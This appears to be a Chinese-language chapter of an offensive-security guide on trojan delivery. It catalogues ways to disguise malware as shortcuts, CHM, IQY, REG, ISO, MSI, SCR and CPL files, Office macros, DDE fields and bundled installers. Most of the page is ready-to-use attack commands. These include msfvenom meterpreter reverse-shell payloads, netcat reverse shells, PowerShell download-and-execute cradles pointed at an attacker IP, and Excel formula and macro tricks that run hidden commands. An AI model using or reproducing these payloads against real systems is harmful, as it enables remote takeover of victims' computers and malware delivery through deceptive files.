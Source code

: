 # 木马投递

## 恶意软件伪装

### 文件伪装

1. 快捷方式伪装

(1)

[lnk.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/lnk.ps1)

(2)

[ico.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ico.ps1)

[download.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/download.ps1)

hi.exe:

```bash
msfvenom -p windows/x64/messagebox TEXT='There is payload!' TITLE='Ghost Wolf Lab' -f exe > hi.exe
```

(3)

[ole.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ole.ps1)

nc.cmd:

```bash
C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe  
//嵌入攻击者主机IP地址
```

2. CHM文件

[nc.html](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/nc.html)

```bash
nc -lvp 4444
```

nishang:

```bash
Import-Module .\Out-CHM.ps1
out-chm -payload "C:\Users\Administrator\Desktop\nc.exe -e powershell IP地址 5555" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
nc -lvp 5555
```

3. IQY文件

test.iqy:

```bash
WEB
1
https://www.baidu.com/robots.txt
```

calc.dat:

```bash
=cmd|' /C calc'!notthissheet
```

calc.iqy:

```bash
WEB
1
http://IP地址/payload/calc.dat
```

(1)

```bash
Start-CaptureServer -AuthType Basic -IPAddress IP地址 -LogFilePath log.txt
```

login.dat:

```bash
=cmd|' /C start iexplore http://IP地址/'!notthissheet
```

auth.iqy:

```bash
WEB
1
http://IP地址/payload/login.dat
```

(2)

```bash
=cmd|' /C C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe'!notthissheet
```

```bash
=cmd|' /C powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://IP地址/nishang/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress IP地址 -Port 4444"'!notthissheet
```

4. REG文件

[malicious.reg](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/malicious.reg)

5. VBS文件

[evil.vbs](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.vbs)

6. JScript文件

[evil.js](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.js)

7. ISO文件

```bash
apt-get install genisoimage
mkisofs -o malicious.iso -V "Update" -J -R hi.exe
```

8. MSI文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f msi > evil.msi
```

9. SCR文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f exe > payload.exe
payload.exe > payload.scr
```

10. 联系人文件

(1)

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```

```bash
http.\\www.ghostwolflab.com.cpl
shell.dll > www.ghostwolflab.com.cpl
```

(2)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=5555 -f vbs > shell.vbs
```

```bash
<a href="vbs\shell.vbs">snowwolf@admin.com</a>
```

11. CPL文件

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```

### 宏病毒

弹窗宏:

```vba
Private Sub Document_Open()
  MsgBox "Hi,I am snowwolf.", vbOKOnly, "Ghost Wolf Lab"
End Sub
```

1. Metasploit框架生成宏

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vba-psh > vba
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vba-exe
```

2. 页面替换宏

[page.vba](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/page.vba)

3. Regsvr32方法

[evil.sct](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.sct)

[Regsvr32下载](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/Regsvr32下载)

4. Author属性

```bash
powershell -NoP -ExecutionPolicy Bypass -Command IEX ((New-Object Net.WebClient).DownloadString('http://IP地址/payload/hacker.ps1'))
```

hacker.ps1 > msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f psh-cmd

```bash
Sub AutoOpen()
    ' 读取Author属性中的恶意代码
    Dim strCmd As String
    strCmd = ActiveDocument.BuiltInDocumentProperties("Author").Value
    ' 执行恶意代码
    Shell strCmd, vbHide
End Sub
```

5. 基于ActiveX的自动运行宏

[嵌入ActiveX自动运行宏](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/嵌入ActiveX自动运行宏)

active.ps1 > msfvenom -p windows/x64/messagebox TEXT='Hi,I am Snowwolf' TITLE='Ghost Wolf Lab' -f psh-cmd > active.ps1

6. 基于Certutil直接下载并运行

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f exe > cer.exe
```

[Certutil下载并运行](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/Certutil下载并运行)

7. 远程模板注入

[远程模板VBA](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/远程模板VBA)

file name = http://192.168.0.189/payload/evil.dotm

8. DDE

```bash
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://IP地址/payload/active.ps1')"}
```

Excel:

```bash
=cmd|'/c cmd.exe /c powershell.exe -nop -w hidden iwr -outf %tmp%\\excel.vbs http://IP地址/payload/excel.vbs & %tmp%\\excel.vbs'!'A1'
```

excel.vbs:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vbs > excel.vbs
```

9. Excel XLM宏

```bash
=EXEC("C:\\Users\\Administrator\\Desktop\\nc.cmd")
=HALT()
```

### 文件捆绑

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=443 -f exe > shell.exe
```

[file_bundler.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/file_bundler.py)

```bash
python file_bundler.py --legit hi.exe --evil shell.exe --output bundled_installer.exe
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=443 -x hi.exe -k -f exe > shell.exe
```

### 自解压

## 白名单
